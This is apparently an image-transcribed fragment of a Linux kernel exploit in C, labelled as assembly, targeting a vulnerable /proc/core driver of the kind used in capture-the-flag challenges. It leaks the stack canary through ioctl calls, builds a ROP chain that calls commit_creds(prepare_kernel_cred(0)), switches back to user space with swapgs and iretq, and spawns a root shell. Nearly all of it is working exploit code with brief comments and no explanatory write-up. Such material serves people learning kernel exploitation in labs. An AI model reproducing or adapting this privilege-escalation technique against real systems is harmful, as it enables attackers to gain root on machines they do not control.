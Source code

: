 ```assembly
    int fd = open("/proc/core", 2);
    if(fd < 0){
        puts("[*]open /proc/core error!");
    }
   
    //read /tmp/kallsyms to get commit_creds and prepare_kernel_cred addr
    find_symbols();
    ssize_t offset = vmlinux_base - raw_vmlinux_base;
   
    //v5 [rbp-0x50]
    //leak canary
    ioctl(fd, 0x6677889C, 0x40);

    char buf[0x40] = {0};
    ioctl(fd, 0x6677889B, buf);
    size_t canary = ((size_t*)buf)[0];
    printf("[*]canary: %p\n", canary);


    

    size_t rop[0x1000] = {0};   
    int i;
    
    //rbp-0x50
    for(i=0; i<10; i++){ 
        rop[i] = canary;
    }


    //commit_creds(prepare_kernel_cred(0))
    //rdi = 0;ret prepare_kernel_cred
    //prepare_kernel_cred(0)
    rop[i++] = get_root;
    
    
    //kernel space to user spcace :swapgs iretq
    //swapgs: get kernel data structure
    //popfq:pop eflags
    //retn iretq
    rop[i++] = 0xffffffff81a012da + offset; //swapgs; popfq; ret
    rop[i++] = 0;
    
    //iretq:from kernel space to user space
    //prepare cs,eflags.rsp,
    rop[i++] = 0xffffffff81050ac2 + offset; //iretq; ret
    
    
    rop[i++] = (size_t)spawn_shell; //rip

    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;

    
    write(fd,rop,0x800);
    ioctl(fd, 0x6677889A, 0xffffffffffff0000 | (0x100));

   
    return 0;
}
```